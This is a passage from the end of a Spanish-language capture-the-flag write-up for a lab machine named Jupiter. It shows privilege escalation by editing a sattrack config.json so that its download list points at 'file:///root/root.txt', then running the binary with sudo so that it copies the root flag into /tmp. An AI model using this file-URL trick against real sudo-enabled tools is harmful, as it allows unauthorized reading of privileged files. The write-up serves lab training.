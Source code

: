 Asi que ese lo copiaremos al directorio /tmp

Una vez que tengamos el config.json en /tmp, ejecutaremos el sattrack: ```sudo /usr/local/bin/sattrack```

Vemos como estara intentando descargar recursos de los URL que estan dentro de:

```json
	"tlesources": [
		"http://celestrak.org/NORAD/elements/weather.txt",
		"http://celestrak.org/NORAD/elements/noaa.txt",
		"http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle"
],
```

![](/imgs/jupiter/9.png)

Y luego los guardara en ```/tmp/tle/``` como lo indica ```"tleroot": "/tmp/tle/",```

Asi que podriamos hacer que descargue de la misma maquina el archivo de la flag de root y lo guarde en el directorio ```/tmp/tle/```

Editaremos el archivo ```config.json``` y agregaremos esto en ```tlesources``` --> ```"file:///root/root.txt"```, quedando el archivo asi:

```json
{
	"tleroot": "/tmp/tle/",
	"tlefile": "weather.txt",
	"mapfile": "/usr/local/share/sattrack/map.json",
	"texturefile": "/usr/local/share/sattrack/earth.png",
	
	"tlesources": [
		"file:///root/root.txt"
	],
	
	"updatePerdiod": 1000,
	
	"station": {
		"name": "LORCA",
		"lat": 37.6725,
		"lon": -1.5863,
		"hgt": 335.0
	},
	
	"show": [
	],
	
	"columns": [
		"name",
		"azel",
		"dis",
		"geo",
		"tab",
		"pos",
		"vel"
	]
}
```
Solo lo ejecutamos y ya tendriamos la flag de root

![](/imgs/jupiter/8.png)

Eso ha sido todo, gracias por leer ❤